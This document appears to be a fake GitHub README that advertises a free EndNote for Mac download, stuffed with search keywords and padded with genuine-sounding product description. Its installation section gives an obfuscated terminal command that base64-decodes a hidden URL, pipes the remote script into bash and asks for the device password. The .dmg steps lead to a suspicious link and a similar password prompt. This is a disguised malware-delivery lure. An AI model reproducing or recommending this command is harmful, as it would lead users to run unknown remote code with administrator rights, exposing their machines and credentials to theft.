# 📚 EndNote for Mac – Powerful Reference Management for Researchers

![EndNote Mac Screenshot 1](https://assets.onthehub.com/attachments/9/32780a44-dfe9-ed11-8155-000d3af41938/660df63a-9abc-4f90-a424-b836fa4db05d.jpg?t=638188066962430000)  

---

## 🧰 Installation 

[![⬇️ Download Now](https://img.shields.io/badge/EndNote-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/endnote)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

---

## 📖 What is EndNote for Mac?

**EndNote for Mac** is a comprehensive reference management software designed specifically for researchers, academics, scientists, and students who need to collect, organize, cite, and share research sources in an efficient and professional way. Developed by Clarivate, EndNote has become one of the most widely used tools in the academic and scientific community for managing bibliographies and formatting citations across a wide variety of styles and publication formats.

With EndNote, users can build a personal reference library by importing citations from online databases like PubMed, Google Scholar, Web of Science, JSTOR, and many others. The software supports automatic metadata extraction from PDFs and allows for full-text search within attached files, helping users easily locate the information they need across thousands of documents.

EndNote integrates seamlessly with **Microsoft Word for Mac**, enabling researchers to insert properly formatted citations directly into their papers with just a few clicks. It supports more than **7,000 citation styles**, including APA, MLA, Chicago, Harvard, and countless journal-specific formats, which makes it suitable for any academic discipline or research focus.

One of the standout features of EndNote for Mac is its **cloud-based synchronization**, allowing users to access their libraries across multiple macOS devices and collaborate in real time with colleagues by sharing references and annotations. The application also supports **smart groups** and filtering tools, which help users automate organization based on authors, topics, keywords, or publication dates.

In addition to its robust citation tools, EndNote includes note-taking functionality, customizable fields, tagging, and PDF annotation, giving users everything they need to manage the entire lifecycle of a research project. Its compatibility with the latest macOS versions and native support for **Apple Silicon (M1, M2, M3)** ensures fast performance and long-term stability.

Whether you're writing a dissertation, submitting an article to a peer-reviewed journal, managing a literature review, or organizing collaborative research across a team, **EndNote for Mac** is built to streamline your academic writing process, increase accuracy, and save valuable time.

---

## 🚀 Features

- 📚 Collect and organize references with folders and tags  
- 🔍 Search online databases and import citations directly  
- 📝 Insert citations and format bibliographies in Word for Mac  
- ☁️ Sync your library across multiple devices via cloud  
- 👥 Collaborate with teams and share libraries  
- 🎯 Supports 7,000+ citation styles  
- 💾 Attach PDFs, notes, and annotations to sources  
- 🔒 Full offline functionality with cloud backup options  
- 🧠 Smart groups and filters for automated organization  
- ✅ Compatible with macOS Monterey, Ventura, Sonoma + M1/M2/M3

---

![EndNote Mac Screenshot 2](https://insmac.org/uploads/posts/2020-06/1591708892_endnote_01.jpg)

---

## 💻 System Requirements

- **macOS 10.14 Mojave** or later (incl. **Monterey**, **Ventura**, **Sonoma**)  
- Apple Silicon (M1/M2/M3) & Intel support  
- Microsoft Word 2016 or newer for integration  

---

## 🏷️ Keywords

`endnote mac`, `end note mac`, `endnote for macbook`, `endnote for macbook air`, `endnote in mac`, `endnote mac download`, `endnote for mac free`, `endnote download free mac`, `download endnote for mac free`, `download endnote free for mac`, `download endnote mac free`, `end note download mac`, `endnote free download for mac`, `endnote mac os`, `endnote 20 for mac`, `endnote 20 mac`, `endnote desktop mac`, `endnote 20 download for mac`, `download endnote 20 for mac`, `download endnote 20 mac`, `download endnote for mac free full version`, `download endnote on mac`, `download endnote x9 for mac`, `download endnote x9 mac`, `end note on mac`, `endnote 20 download mac`, `endnote 20 for mac download`, `endnote 20 mac download`, `endnote 20 on mac`, `endnote app for mac`, `endnote app mac`, `endnote download free for mac`

---
